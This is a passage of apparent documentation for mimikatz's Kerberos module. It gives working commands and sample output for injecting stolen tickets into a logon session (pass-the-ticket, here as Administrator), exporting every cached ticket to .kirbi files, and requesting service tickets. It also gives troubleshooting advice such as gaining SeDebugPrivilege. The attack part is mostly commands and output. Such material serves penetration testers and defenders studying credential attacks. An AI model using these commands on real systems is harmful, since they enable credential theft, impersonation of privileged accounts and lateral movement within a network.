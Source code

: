 ``` 
kerberos::ptt C:\tickets\admin.kirbi
kerberos::ptt C:\tickets\  # processes every *.kirbi in the directory tree
```

Example output:

```
* File: 'C:\tickets\admin.kirbi' : OK
  -> Ticket injected for user Administrator @ CORP.LOCAL
```

* **Directory arguments** – When an argument is a directory, mimikatz enumerates every `*.kirbi` file under it; this is useful when importing many tickets at once.【F:mimikatz/modules/kerberos/kuhl_m_kerberos.c†L63-L79】
* **File arguments** – Each file is read and submitted as-is. Use this to selectively inject a crafted ticket into the LSA logon session.【F:mimikatz/modules/kerberos/kuhl_m_kerberos.c†L83-L126】

Potential errors and troubleshooting:

* `ERROR kuhl_m_kerberos_ptt_data` – The file is not a valid `KRB_CRED` structure. Re-export the ticket with `kerberos::list /export` or another tool that preserves the Kerberos credential format.
* `ERROR kull_m_file_readData` – mimikatz cannot open the ticket path. Confirm the path, escape backslashes, and ensure the process has permission to read the file.

### `kerberos::list`
Enumerates cached Kerberos tickets for the current session and displays their metadata. Adding `/export` also saves each ticket as a `.kirbi` file using a descriptive filename.【F:mimikatz/modules/kerberos/kuhl_m_kerberos.c†L197-L266】

```
kerberos::list
kerberos::list /export
```

Example output:

```
Ticket             : 0 - 0x00000000 - krbtgt/CORP.LOCAL @ CORP.LOCAL
        Flags      : 50a10000    -> forwardable ; renewable ; pre_authent ; initial ; ok_as_delegate
        Start/End  : 9/18/2023 12:00:00 AM ; 9/18/2023 10:00:00 AM
```

* **`/export`** – Replays each cache entry through `KerbRetrieveEncodedTicketMessage` in *KrbCred* form and writes it to disk. Use this when you need to move a ticket to another host or analyze it offline.【F:mimikatz/modules/kerberos/kuhl_m_kerberos.c†L225-L255】

Potential errors and troubleshooting:

* `ERROR kuhl_m_kerberos_list` – LSA returns `STATUS_NO_LOGON_SESSION`; run mimikatz as the same logon session whose tickets you want to inspect, or ensure you have `SeDebugPrivilege` by running `privilege::debug` first.
* `ERROR kull_m_file_writeData` – When exporting, the destination path is invalid or unwritable. Change to a writable directory (for example, `C:\temp`) before running the command.

### `kerberos::ask`
Requests a service ticket (TGS) for the supplied Service Principal Name (SPN) and shows the result. It can also export the ticket or the raw `TKT` blob for later use.【F:mimikatz/modules/kerberos/kuhl_m_kerberos.c†L269-L369】
